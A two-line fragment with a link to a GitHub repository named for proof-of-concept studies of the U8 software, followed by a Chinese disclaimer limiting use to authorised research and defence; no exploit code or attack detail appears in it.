<https://github.com/sudo-Yangziran/U8-POC-Study>

**本文内容仅用于技术研究与防御，请勿用于非法用途。使用者需获得目标系统授权并在安全环境进行测试。滥用本文信息产生的后果由使用者自负，与本人无关**
